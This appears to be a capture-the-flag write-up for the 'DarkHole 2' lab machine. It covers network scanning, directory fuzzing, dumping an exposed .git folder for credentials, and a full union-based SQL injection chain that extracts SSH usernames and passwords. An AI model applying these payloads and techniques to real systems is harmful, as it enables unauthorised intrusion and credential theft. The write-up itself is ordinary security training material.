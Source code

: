 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/104873e8-46e1-4264-a1e7-51389bc48a1e"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/de8e5575-0453-497e-80f7-9467daf35c28)

```bash
ping -c 1 192.168.1.210
```
![image](https://github.com/user-attachments/assets/88319795-5f50-45a4-b7e0-4a89fca4c012)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.210 -oG allPorts
```
![image](https://github.com/user-attachments/assets/caab3713-32f9-45cb-9347-4540c21e16df)

```bash
nmap -sCV -p22,80 192.168.1.210 -oN targeted
```
![image](https://github.com/user-attachments/assets/9d7977fb-b01e-4c8f-9237-8b3dcb959f48)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 22</h2>

![image](https://github.com/user-attachments/assets/fb033fd8-2155-4cbd-8e52-9f1a9a42d500)
![image](https://github.com/user-attachments/assets/df1662e7-8ff5-4ea0-9eb2-bd2c1f0f207f)
![image](https://github.com/user-attachments/assets/e7765820-701f-4ab2-bba6-afb011e37593)<br>
<br>
#### **This machine is a Ubuntu Focal**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/d42310cb-ab4b-46fe-8bf3-6754bf48e422)

``CTRL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/94f0d78a-3a61-48f3-b968-07132e49bc7a)
![image](https://github.com/user-attachments/assets/87d49f77-cc5a-4aa5-9daf-eb9186bd72ed)
![image](https://github.com/user-attachments/assets/c8ee583d-de18-4adf-ba69-4fabeb1977e3)<br>
<br>
#### **We found a web login**

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.210/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/dbad34e3-bd2f-4f82-922e-97e197aca627)
![image](https://github.com/user-attachments/assets/9821288a-4bc4-40c7-a197-5ee7129a8fde)
![image](https://github.com/user-attachments/assets/8660a7ea-4ec9-4510-87c1-4c3c5c0d98dd)
![image](https://github.com/user-attachments/assets/3216459f-0e6e-4f5b-a488-d0def89b5a41)
![image](https://github.com/user-attachments/assets/2d8a2c67-dfc0-4bde-bfc9-61546d49ea94)
![image](https://github.com/user-attachments/assets/e9754472-778d-4b38-aa5f-35641fe76548)

```bash
whatweb "http://192.168.1.210"
```
![image](https://github.com/user-attachments/assets/9897106f-25dd-4fda-8a3e-f2b6e8d2ef01)

### **.git**
![image](https://github.com/user-attachments/assets/75deb6fc-8d73-4be7-9e1b-afd111bdf1e7)
![image](https://github.com/user-attachments/assets/9a9828e5-b238-478c-8741-10275f16d3e8)
<br>
<br>
#### **Download content for analysis**
```bash
wget -r http://192.168.1.172/.git/
```
![image](https://github.com/user-attachments/assets/d7394a20-d0f7-4b50-af99-eecdee7674bb)

#### **Checking gitlog of the repository**
```bash
git log
```
![image](https://github.com/user-attachments/assets/967b793f-91c8-4ca7-a92a-8783711c90d6)

```bash
git log --oneline
```
![image](https://github.com/user-attachments/assets/7285dea1-a75d-4c84-9816-e2779fd60645)

```bash
git show a4d900a
```
![image](https://github.com/user-attachments/assets/d01f05b0-960f-492b-aa69-978889012c18)

#### **We finally have credentials**
User:    lush@admin.com<br>
Paswwd:  321

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

![image](https://github.com/user-attachments/assets/62bbcd1d-acd3-403d-bd08-3df3892d5cfe)
![image](https://github.com/user-attachments/assets/3be015c2-096e-4a02-a50e-eb939a87385b)
![image](https://github.com/user-attachments/assets/34a7d54f-cc17-4c3e-b134-e38095dd36e4)
![image](https://github.com/user-attachments/assets/c507dd9a-8222-4133-95ff-066ad61d0ef3)
![image](https://github.com/user-attachments/assets/c71a50cc-aa9c-4def-b4d4-91e10c90929b)

#### **intercepting with burp, to see how everything goes from behind**
```bash
burpsuite &> /dev/null & disown
```
![image](https://github.com/user-attachments/assets/6a77d54a-b163-436c-814f-960d9682f3f9)

#### **sending the captured information to the repeter**
``CTRL+R``<br>

![image](https://github.com/user-attachments/assets/d12cb967-dce8-4099-9fce-1f0861d767b7)
![image](https://github.com/user-attachments/assets/53c4bd44-77bc-480e-8af0-3954ba11a31a)

### **Showing database**
```SQLI
1' order by 6-- - 
```
![image](https://github.com/user-attachments/assets/1b46970d-4b91-416d-98db-7fff663a2d60)

```SQLI
2' union select 1,2,3,4,5,6-- -
```
![image](https://github.com/user-attachments/assets/3cf1d124-971d-48b7-8017-fe47deffd766)
![image](https://github.com/user-attachments/assets/52c76219-f1b9-4b99-be01-afda0eda509f)

```SQLI
2' union select 1,2,database(),4,5,6-- -
```
![image](https://github.com/user-attachments/assets/ffd5caa6-d457-4ee0-a720-2b5972fa8382)
![image](https://github.com/user-attachments/assets/3e4561d3-b8df-4c06-86a2-4d1b2fd9e999)

```SQLI
2' union select 1,2,schema_name,4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/bca85749-2efc-4ca5-8704-a07b3f55ba28)
![image](https://github.com/user-attachments/assets/b0eb9738-d9df-4578-b231-926d3325b115)

```SQLI
2' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/b45d280e-405c-467b-8ede-ad661c8e9a32)
![image](https://github.com/user-attachments/assets/add53760-26fd-4658-ba8b-2f8606805e2e)

### **Showing Tables**

```SQLI
2' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```
![image](https://github.com/user-attachments/assets/e0c9fafb-2b30-44a4-8e86-a1e07970a733)
![image](https://github.com/user-attachments/assets/24a07cab-0683-4896-a76a-3d7cbc7a32c9)

### **Showing Columns**

```SQLI
2' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name="ssh"-- -
```
![image](https://github.com/user-attachments/assets/6aac1ac1-bbfb-42a9-af96-1d3a18d82021)
![image](https://github.com/user-attachments/assets/11edc06f-1aa0-495e-a3c1-d4e162e49484)

### **Showing Content**
```SQLI
2' union select 1,2,group_concat(user,0x3a,pass),4,5,6 from ssh-- -
```
![image](https://github.com/user-attachments/assets/52cdcd81-f6bf-42cd-9f54-406291011e21)
![image](https://github.com/user-attachments/assets/06f014b1-d76b-43d4-a9d1-96481042e295)

User:    jehad
Passwd:  fool
